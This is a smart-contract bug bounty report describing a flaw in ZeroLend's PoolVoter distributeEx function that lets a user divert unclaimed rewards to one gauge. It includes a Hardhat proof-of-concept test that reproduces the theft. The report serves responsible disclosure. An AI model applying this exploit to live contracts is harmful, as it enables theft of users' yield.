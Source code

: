 
# Malicious user can transfer all unclaimed rewards to a custom gauge

Submitted on Sat Mar 02 2024 19:16:07 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28955

Report type: Smart Contract

Report severity: High

Target: https://github.com/zerolend/governance

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
A malicious user can distribute reward tokens to a specific pool gauge through distributeEx function at PoolVoter without resetting claimable mapping.


## Vulnerability Details
There are two distribute methods in PoolVoter. a distribute function, which is intended to transfer any claimable reward of a gauge and notifyRewardAmount in that gauge then reset claimable mapping , also 
there is a distributeEx function which is intended to distribute additional rewards proportionally to all gauges, it takes a rewards token address (a token that would be distributed ) and several pool addresses to distribute rewards, the distributed amount has been calculated based on pool weight proportion to the total weight. however, it doesn't check the token address provided as the parameter is not the main reward token, so the main reward token can be transferred through this function without resetting claimable mapping, which enables transferring more yield to a specific gauge, leading to a situation which contract doesn't have enough balance to distribute reward of other gauges. most rewards can transferred to a gauge to benefit the attacker.

## Impact Details
Malicious users can transfer more rewards to a gauge ( almost all rewards ), in favor of themselves, which is considered direct theft of unclaimed yields.
## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L214-L234
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L181-L190
        
## Proof of concept
## Proof of Concept
  ```
describe("transfer rewards test", () => {
    it("Malicious user can transfer all rewards to a speciefic gauge", async function () {
    
    // NOTE: this test works with https://github.com/zerolend/governance/commit/4c18c037bd3360ec7316733478b67632fb5218c9 commit 
    // tests didn't work at latest commit, however there is no change at pool voter other than changing some variable names between two commits 
    // so there is no differece 
    // some parts has been added to deployement as follow
    // a new lending pool has been deployed during deployment and its gauge has been registered at pool voter during deployment 
    // some zero tokens has been transferred to ant.address, so ant.address have enough zero token balance 
    // there is an issue at line 136 of PoolVoter by missing a ! sign, which prevents adding pools to _pool array and preventing distribute rewards 
    // since this issue relates to distributing rewards I needed to fix that so distribute function works by fixing if statement 
    // however I submitted that issue seperately and its different from this issue 

    // voting to both gauges equally 
    let vote1 = 1e8/2;
    let vote2 = 1e8/2; 
    await poolVoter.connect(ant).vote([reserve.target, reserve2.target],[vote1, vote2]);
   
    // notify some zero token rewards to pool voter 
    await zero.connect(ant).approve(poolVoter.target, 1e6);
    await poolVoter.connect(ant).notifyRewardAmount(1e6);

    let gauge = poolVoter.gauges(reserve.target);
    let gauge2 = poolVoter.gauges(reserve2.target);

    // update status of both gauges 
    await poolVoter.updateFor(gauge);
    await poolVoter.updateFor(gauge2);

    // retrieve total claimable amount and pool voter contract balance 
    let totalClaimable = await poolVoter.claimable(gauge) + await poolVoter.claimable(gauge2);
    let balance = await zero.balanceOf(poolVoter);

    // ensure pool voter has enough balacne to distribute claimable rewards 
    expect(balance).greaterThanOrEqual(totalClaimable);

    // call distributeEx with zero token address to distribute rewards to first gauge without reseting its claimable mapping 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // retrieve total claimable and balance after distribution 
    let totalClaimableAfter = await poolVoter.claimable(gauge) + await poolVoter.claimable(gauge2);
    let balanceAfter = await zero.balanceOf(poolVoter);

    // currently balance is less than totalClaimable 
    // balance is decreased but totalClaimable has not been changed 
    // so there is not enough balance to cover distributing all rewards 
    expect(balanceAfter).lessThan(totalClaimableAfter);
    expect(balanceAfter).lessThan(balance);
    expect(totalClaimable).eq(totalClaimableAfter);

    // so we can claim rewards for first gauge again, transfering all rewards to first gauge and there is not balance to transfer reward of second gauge 
    await poolVoter["distribute(address)"](gauge);


    });
  });
```